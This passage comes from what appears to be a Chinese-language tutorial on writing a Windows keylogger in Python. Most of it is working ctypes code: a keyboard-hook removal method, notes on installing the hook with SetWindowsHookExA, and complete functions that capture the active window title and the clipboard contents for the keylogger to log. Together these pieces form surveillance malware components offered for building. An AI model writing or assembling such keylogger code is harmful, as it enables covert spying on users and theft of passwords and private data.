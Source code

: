 ```python
        if self.is_hooked is None:
            return
        self.user32.UnhookWindowsHookEx(self.is_hooked)
        self.is_hooked = None
```

`is_hooked`变量用于保存挂钩过程的句柄`SetWindowsHookExA`。
`install_hook`方法用于安装钩子调用`SetWindowsHookExA`
`uninstall_hook`方法用于卸载钩子。测试键盘记录程序时使用

### get_current_window()和get_clipboard()

用到part1抓取窗口标题与剪贴板数据。

```python
def get_current_window():    #抓取当前窗口标题
    #必需的WinAPI函数
    GetForegroundWindow = user32.GetForegroundWindow
    GetWindowTextLength = user32.GetWindowTextLengthW
    GetWindowText = user32.GetWindowTextW

    hwnd = GetForegroundWindow()    #获取当前窗口句柄
    length = GetWindowTextLength(hwnd)    #获取标题文本长度，将句柄乍为参数传递
    buff = ctypes.create_unicode_buffer(length + 1)    #创建临时缓存buff用于存储标题文本

    GetWindowText(hwnd, buff, length + 1)    #获取窗口标题并存储在buff中

    return buff.value    #返回buff的值

def get_clipboard():

    CF_TEXT = 1    #设置剪贴板格式

    #GlobalLock/GlobalUnlock 参数与返回类型
    kernel32.GlobalLock.argtypes = [ctypes.c_void_p]
    kernel32.GlobalLock.restype = ctypes.c_void_p
    kernel32.GlobalUnlock.argtypes = [ctypes.c_void_p]

    #GetClipboardData的返回类型
    user32.GetClipboardData.restype = ctypes.c_void_p
    user32.OpenClipboard(0)

    #所需剪贴板函数
    IsClipboardFormatAvailable = user32.IsClipboardFormatAvailable
    GetClipboardData = user32.GetClipboardData
    CloseClipboard = user32.CloseClipboard

    try:
        if IsClipboardFormatAvailable(CF_TEXT):    #如果CF_TEXT可用
            data = GetClipboardData(CF_TEXT)    #获取剪贴板数据的句柄
            data_locked = kernel32.GlobalLock(data)    #获取指向数据所在的内存位置的指针
            text = ctypes.c_char_p(data_locked)    #获取指向data_locked位置的char*(python中的字符串)指针
            value = text.value    #存储有用的值
            kernel32.GlobalUnlock(data_locked)    #递减锁计数
            return value.decode('utf-8')    #返回剪贴板的值
    finally:
        CloseClipboard()    #关闭剪贴板
```
